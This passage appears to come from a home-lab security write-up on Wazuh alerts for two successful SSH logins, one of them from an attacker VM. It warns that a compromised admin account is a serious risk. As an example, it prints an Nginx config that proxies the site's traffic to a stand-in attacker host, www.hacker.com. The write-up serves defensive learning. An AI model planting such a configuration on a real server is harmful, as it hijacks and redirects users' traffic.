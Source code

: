 <p align="center">
  <img src="images/Waz_SSH_TwoAttempts.png">
</p>

We should see the two successful attempts as alerts. Looking at the first login, it was from 192.168.33.3 `(Admin VM)`, and the second one was from 192.168.33.8 `(Attacker VM)`. This might be okay, as in this case, where we deliberately logged in from multiple places. However, in an enterprise setting, this could indicate a compromised account. For this reason, each login attempt should be taken seriously. This alert was shown to be low severity. Nevertheless, it could have been a detrimental problem (i.e., not low severity), because this account is an admin account, and it can control the entire public side of the environment. For instance, if the attacker could get hold of an admin account on this machine, the attacker can alter the Nginx config file to serve his own content.

```nginx
server {
    listen 80;
    server_name 192.168.33.6;

    location / {
        proxy_pass http://www.hacker.com;
        proxy_set_header Host www.hacker.com;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```
The above Nginx config could be used by the attacker to redirect our users to his own website. This kind of sophisticated attack is a critical to the business and the users.
